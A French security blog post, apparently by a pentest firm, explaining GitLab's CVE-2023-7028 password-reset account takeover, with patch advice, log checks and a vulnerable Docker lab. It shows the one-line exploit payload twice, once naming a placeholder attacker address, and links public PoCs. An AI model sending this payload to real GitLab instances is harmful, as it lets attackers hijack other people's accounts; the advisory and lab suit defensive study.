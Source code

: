 ```yaml
---
title: "Compromettre des comptes Gitlab avec la vulnérabilité CVE-2023-7028"
description: "Début 2024, Gitlab était vulnérable à une nouvelle faille CVE-2023-7028 d'une criticité importante menaçant grandement les systèmes d'information."
date: 2024-01-19T17:32:30+01:00
draft: false
images: [/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png]
featuredImage: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
featuredImagePreview: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
tags: ["Test d'intrusion", "Exploit", "Gitlab"]
---
```


# 😮 Exposer GitLab publiquement en 2024 : trop dangereux ?

<br>
<br>

Est ce que exposer son propre Gitlab est une bonne pratique de sécurité ? Et bien vous allez voir que **non**.

2024 commence fort et donne encore de bonnes raisons de **ne pas exposer ce service sur Internet** (mais plutôt de l'héberger derrière un VPN).

## Un début d'année sous haute tension

Le 11 janvier 2024, GitLab, la célèbre plateforme communautaire, a publié une annonce importante concernant les nouvelles versions `16.7.2, 16.6.4 et 16.5.6` pour GitLab Community Edition (CE) et Enterprise Edition (EE).

Deux vulnérabilités sont expliquées :

1. La vulnérabilité **CVE-2023-7028** 
    - CVSS de 10/10 😮
    - Elle permet la prise de contrôle d'un compte via la réinitialisation du mot de passe sans interaction de l'utilisateur.

2. La vulnérabilité **CVE-2023-5356** 
    - CVSS de 9.6/10 😟
    - Elle permet à un utilisateur d'abuser des intégrations Slack/Mattermost pour exécuter des commandes slash en tant qu'autre utilisateur.

## En bref

La vulnérabilité la plus problématique est la première : la **CVE-2023-7028**.

Loin d'être inoffensive, elle est très problématique :

- Elle permet de réinitialiser le mot de passe de n'importe quel utilisateur.
- La vulnérabilité est exploitable sans compte.
- Il est nécessaire de connaitre le mail de la victime.
- La charge tient en une ligne : `user[email][]=my.target@example.com&user[email][]=hacker@evil.com`

La deuxième vulnérabilité est tout aussi grave mais moins facilement exploitable.

## Exploitation

Pour exploiter cette vulnérabilité, le PoC est vraiment très simple :

```
user[email][]=valid@email.com&user[email][]=attacker@email.com
```

- `valid@email.com` est l'adresse de la victime
- `attacker@email.com` est l'adresse de l'attaquant

Une confusion est effectuée par GitLab rendant la possibilité à un attaquant d'écraser le mail de la victime par le sien 😮 !

Plus précisément, une modification a été apportée à la version `16.1.0` afin de permettre aux utilisateurs de réinitialiser leur mot de passe à l'aide d'une adresse électronique secondaire. La vulnérabilité résulte d'un bug dans le processus de vérification des email.

👉 Plus de détails sur le blog de GitLab : https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions


## Actions recommandées

Gitlab recommande les actions suivantes : 

1️⃣  **Mise à jour immédiate** : il est fortement conseillé de mettre à jour Gitlab vers la dernière version corrigée. Pour les utilisateurs n'ayant pas encore effectué de mise à jour, GitLab recommande de passer directement aux versions `16.7.3, 16.6.5, 16.5.7` ou ultérieures.

2️⃣ **Activer l'authentification à deux facteurs (2FA)**: GitLab conseille d'activer le 2FA pour tous les comptes. Cette sécurité empêche l'utilisation de cette vulnérabilité.

3️⃣ **Vérification de l'intégrité** : il est conseillé aux clients auto-gérés d'examiner leurs logs afin détecter toute tentative d'exploitation de ces vulnérabilités.

Exemple :

- Consulter le fichier `gitlab-rails/production_json.log` afin de vérifier qu'aucune requête pointant vers la route `/users/password` ne contienne **plusieurs adresses emails**.
- Consulter le fichier `gitlab-rails/audit_json.log` afin de vérifier que le champ `meta.caller_id` de `PasswordsController#create` et `target_details` ne contiennent pas **plusieurs adresses emails**.

## Automatisation

De nombreux PoC sont disponibles sur Internet permettant d'automatiser la vulnérabilité :

- Fait par un français talentueux : https://github.com/Vozec/CVE-2023-7028
- https://github.com/V1lu0/CVE-2023-7028

## Docker vulnérable

Pour les plus curieux, vous trouverez ci-dessous un docker compose vulnérable pour pratiquer cette vulnérabilité

```yaml
version: '3.6'
services:
  gitlab:
    image: 'gitlab/gitlab-ce:16.1.4-ce.0'
    restart: always
    hostname: 'gitlab.domain.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://gitlab.domain.com'
        gitlab_rails['smtp_enable'] = true
        gitlab_rails['smtp_address'] = "smtp_address"
        gitlab_rails['smtp_port'] = 587
        gitlab_rails['smtp_user_name'] = "smtp_user_name"
        gitlab_rails['smtp_password'] = "smtp_password"
        gitlab_rails['smtp_domain'] = "domain.com"
        gitlab_rails['smtp_authentication'] = "login"
        gitlab_rails['smtp_enable_starttls_auto'] = true
    ports:
      - '80:80'
      - '443:443'
      - '22:22'
    volumes:
      - './gitlab/config:/etc/gitlab'
      - './gitlab/logs:/var/log/gitlab'
      - './gitlab/data:/var/opt/gitlab'
```

Disponible sur le GitHub de Trackflaw : https://github.com/Trackflaw/CVE-2023-7028-Docker

## Démonstration

Petite démonstration ci-dessous pour présenter l'exploitation de la vulnérabilité :

<video src="/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/exploit.mp4" controls autoplay loop title="Exploitation de Gitlab avec la vulnérabilité CVE-2023-7028" style="width:100%"></video>

🙏 Patchez rapidement. Trackflaw est la pour vous aider dans cette tâche. Prenez contact avec nous sur https://trackflaw.com ou par email contact (@) trackflaw.com

## Sources

- https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions
